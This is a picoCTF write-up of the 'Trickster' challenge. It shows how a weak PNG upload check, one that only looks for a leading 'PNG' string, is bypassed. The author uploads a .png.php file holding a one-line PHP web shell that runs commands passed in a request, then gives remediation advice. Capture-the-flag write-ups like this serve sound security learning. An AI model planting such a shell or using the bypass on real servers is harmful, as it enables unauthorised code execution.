









# Trickster | picoCTF
## Description
I found a web app that can help process images: PNG images only!

## Analysis
When we enter the website, we see the following picture:


As you can see, this is a PNG processing app that takes only `.png` files as an input. When we try to upload files with different file extension, it gots rejected. I tried to create a `.txt` file and then rename it to `.png` file. However, this gave me "Invalid PNG" error. I parsed valid `.png` file and checked it through BurpSuite to see what it expects so I can start manipulating:


As you can see, when we parse valid PNG file, the `.png` file start with string **PNG**. That gave me an idea to add "PNG" to the start of my `.txt` file, rename it to `.png` and upload. It worked!! We just confirmed that `.png` validation is very weak and only checks for literal "PNG" string in the beginning of the file instead of validating real PNG. From now on I was very stuck.
## Solution
After trying million things, I remembered to check `/robots.txt` subdirectory of this webpage and got the following output:


This showed me that there are `/uploads/` and `/instructions.txt` subdirectories exist. I check both of them and got the following results:



The `/uploads` was forbidden so we could not access it. `/instructions.txt`, however, confirmed that I was correct about "PNG" string validation. The important part that we got from this is that files are being uploaded to the server. That means we can upload some payload and then try to access it using `/uploads/some_payload".

I decided to use polyglot `.php` web shell payload. Polyglot means file has several extensions and its implementation depends on how server will execute it. I named it `payload.png.php`. This works because Apache treats files ending in `.php` as PHP scripts, even if they contain additional extensions. Now this file bypassed `.png` file filter and contains my `.php` payload which looks like this:

```php
PNG

<?php system($_REQUEST['cmd']); ?>
```

This payloads bypasses `png` validation and requests `cmd` command from url,cookie, or form. This is thanks to "$_REQUEST" method which combines "$_GET", "$_POST", and "$_COOKIE" methods:



As you can see we can access our `payload.png.php` and get the following error:
```bash
Fatal error: Uncaught ValueError: system(): Argument #1 ($command) cannot be empty in /var/www/html/uploads/payload.png.php:3 Stack trace: #0 /var/www/html/uploads/payload.png.php(3): system('') #1 {main} thrown in /var/www/html/uploads/payload.png.php on line 3
```
That confirms that our payload is working, we got **Remote Code Execution**, and all we need to do is to give some values to `cmd` through url.

## Answer
I started to explore the server using `ls`, `cd`, and their chaining:



This is how we solve the following CTF!!

## Remediation
To avoid these types of exploitations, we need to always make sure our validation is secure and works properly. Otherwise, it could be bypassed very easily by hackers. Always remember to:
* validate real magic bytes
* don't execute uploaded files
* store uploads outside web root
